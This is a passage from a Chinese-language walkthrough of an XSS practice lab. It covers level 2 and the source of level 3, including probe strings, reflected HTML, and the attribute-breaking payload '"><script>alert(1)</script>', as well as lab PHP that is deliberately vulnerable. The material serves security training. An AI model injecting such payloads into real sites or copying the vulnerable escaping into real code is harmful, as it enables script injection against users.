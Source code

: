 ```php+HTML
</body>
```

### 过程(未知源码的情况下)

表单输入`<sCr<scrscRiptipt>ipt>OonN\&apos;\"'<>`查看前端代码：

```html
<body>
<h1 align=center>欢迎来到level2</h1>
<h2 align=center>没有找到和&lt;sCr&lt;scrscRiptipt&gt;ipt&gt;OonN\&amp;apos;\&quot;'&lt;&gt;相关的结果.</h2><center>
<form action=level2.php method=GET>
<input name=keyword  value="<sCr<scrscRiptipt>ipt>OonN\&apos;\"'<>">
<input type=submit name=submit value="搜索"/>
</form>
</center><center><img src=level2.png></center>
<h3 align=center>payload的长度:37</h3></body>
```

有两处输出(第3行、第5行)，第3行的输出有被转义过，推测是用到了`htmlspecialchars()`；第5行的输出没被处理，作为payload的构造基础。

***表单输入`"><script>alert(1)</script>`，过关。***

​	

​	

## 第三关

![](https://pic.imgdb.cn/item/64c875ab1ddac507cc449adf.jpg)

### 源码

```php+HTML
<body>
<h1 align=center>欢迎来到level3</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>
<input type=submit name=submit value=搜索 />
</form>
</center>";
?>
<center><img src=level3.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
```
